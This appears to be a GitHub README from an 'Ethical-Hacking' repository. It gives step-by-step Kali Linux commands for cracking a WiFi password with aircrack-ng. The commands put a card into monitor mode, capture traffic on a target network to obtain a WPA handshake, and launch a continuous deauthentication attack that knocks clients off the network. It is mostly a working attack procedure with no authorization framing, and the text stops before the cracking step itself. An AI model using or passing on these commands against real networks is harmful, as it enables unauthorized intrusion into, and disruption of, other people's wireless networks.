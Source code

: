 
# Password Cracking using aircrack-ng

These are the steps to be followed to Crack WIFI Key Using Kali Linux

Terminal Commands:

    sudo su
     airmon-ng check kill
     airmon-ng start wlan0
     airodump-ng wlan0mon

<img src="https://github.com/Surjith1001/Ethical-Hacking/assets/125909533/ebac1f67-7ed3-4ce9-8c75-d15c8d5d8e7">
<img src="https://github.com/Surjith1001/Ethical-Hacking/assets/125909533/557ef884-d527-40d1-91ef-48d815da9082">

In new terminal:

    sudo su
     cd Desktop
     airodump-ng wlan0mon --bssid (target Bssid) -c (Target Channel Number) -w (hand_shake file name)

After running the above command there will be certain .csv and .cap files created based on the (hand_shake file name) name specified.

<img src="https://user-images.githubusercontent.com/103558082/235842315-384ce725-cbed-4a4f-a321-c7e3e1ecccd4.png">
<img src="https://user-images.githubusercontent.com/103558082/235842319-ddfe5f7d-5351-46de-bf20-f35a106237e4.png">

For Deauthentication attack open new terminal:

    aireplay-ng --deauth 0 -a (Target Bssid) wlan0mon 

Run the Deauthentication attack till you get a WPA Handshake
